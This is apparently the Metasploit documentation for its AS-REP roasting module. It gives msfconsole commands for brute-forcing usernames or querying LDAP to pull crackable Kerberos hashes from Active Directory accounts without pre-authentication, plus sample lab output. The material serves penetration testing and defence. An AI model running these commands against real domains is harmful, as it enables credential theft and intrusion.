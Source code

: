 ## ASREP-roast

The `auxiliary/gather/asrep` module can be used to find users who have Pre-authentication disabled,
and retrieve credentials that can be cracked using a hash-cracking tool.

The following ACTIONS are supported:

- **BRUTE_FORCE**: Make TGT requests for all usernames in a given file. This does not require
  valid domain credentials.
- **LDAP**: Request the set of users with pre-authentication disabled using an LDAP query, and
  then request TGTs for these users.

## Module usage

- Start `msfconsole`
- Do: `use auxiliary/gather/asrep`
- Do: `run action=BRUTE_FORCE user_file=<file> rhost=<IP> domain=<FQDN> rhostname=<hostname>`
- The module will attempt to request TGTs for each of the users in the file. This should not lock out accounts.
  A crackable value will be displayed for all identified accounts.
- Do: `run action=LDAP rhost=<IP> username=<LDAP_User> password=<LDAP_Password> domain=<FQDN> rhostname=<hostname>`
- The module will use LDAP to request the users without pre-auth required, and request TGTs for these users.
  A crackable value will be displayed for all identified accounts.

## Options

### DOMAIN
The Fully Qualified Domain Name (FQDN). Ex: mydomain.local.

### USER_FILE
The file containing a list of usernames, each on a new line.

### Rhostname

The hostname of the domain controller. Must be accurate otherwise the module will silently fail, even if users exist without pre-auth required.

### USE_RC4_HMAC
Request a ticket with the lower-security, more easily crackable, RC4_HMAC encryption type. This is 
usually preferable, but may be less stealthy.

## Scenarios

### Brute forcing users

An example of brute forcing usernames, in the hope of finding one with pre-auth not required:

```msf
msf auxiliary(gather/asrep) > run action=BRUTE_FORCE user_file=/tmp/users.txt rhost=192.168.1.1 domain=msf.local
[*] Running module against 192.168.1.1

$krb5asrep$23$user@MSF.LOCAL:9fb9954fa32193185ab32e2de2ab9f13$bf14e834c661246cad302073c228e6ff7894cd3023665f0f84338432c3929922ae998c4a23bb9d163dda536a230d0503b2cf575389317b52bde782264940e80206a29e9613e47328228441cf013fb1f6672359f6799be97b962de9429e8859f437e53549be6b11ca07af6f09eae6cd78279af6d7f6dcdfd011eccb74b4aa753b2f9e6561c59c9408ee4bec983777908f3a7eef5fba977710e47e4e8ac0af10608a7dd23db506202b27d7892bc28426d2080c343edfe243bf1cae554cf6204733082332be2455e4674e1c3e84614818a6c15b54221dcaa832

[*] Query returned 1 result.
[*] Auxiliary module execution completed
```

### Using LDAP

```
msf auxiliary(gather/asrep) > run action=LDAP rhost=192.168.1.1 username=azureadmin password=password ldap::auth=kerberos domain=msf.local domaincontrollerrhost=192.168.1.1 rhostname=dc22
[*] Running module against 192.168.1.1

[+] 192.168.1.1:88 - Received a valid TGT-Response
[*] 192.168.1.1:389 - TGT MIT Credential Cache ticket saved to /home/smash/.msf4/loot/20231124083018_default_192.168.1.1_mit.kerberos.cca_409871.bin
[+] 192.168.1.1:88 - Received a valid TGS-Response
[*] 192.168.1.1:389 - TGS MIT Credential Cache ticket saved to /home/smash/.msf4/loot/20231124083018_default_192.168.1.1_mit.kerberos.cca_923760.bin
[+] 192.168.1.1:88 - Received a valid delegation TGS-Response
[+] 192.168.1.1:389 Discovered base DN: DC=msf,DC=local
[+] 192.168.1.1:389 Discovered schema DN: DC=msf,DC=local

$krb5asrep$23$user@MSF.LOCAL:234e56b15bf3a0e3eb93d662ea6ded74$9889b0a449154c1353ea4db388af29381ad367771e2fe7d6a5644180e9f7ca0b1e836fc864f6d240e9ef91124edb13797dcb097f68c537279f80e3fc3c5c86f8f937af23bb2fd58274dd40ea184994cf31de50f508faac86c61749032b2d9e4ae4c74b0f76a0c242497e6765ddfba9c57743b19d4bb97aa3ef3b66cee50a1d3871b0b4ecd3f97d42781b6fb3d8839d8805ae1291d0e9ba07d374ed84ea39fadab548c2b40c87288b4465f234d0c3341e3b27c193a62a3ad7b0bdf04dbe5bf03815d48f766d1c727838f92dd36c437782975a978aefcb33e9

[*] Query returned 1 result.
[*] Auxiliary module execution completed
```
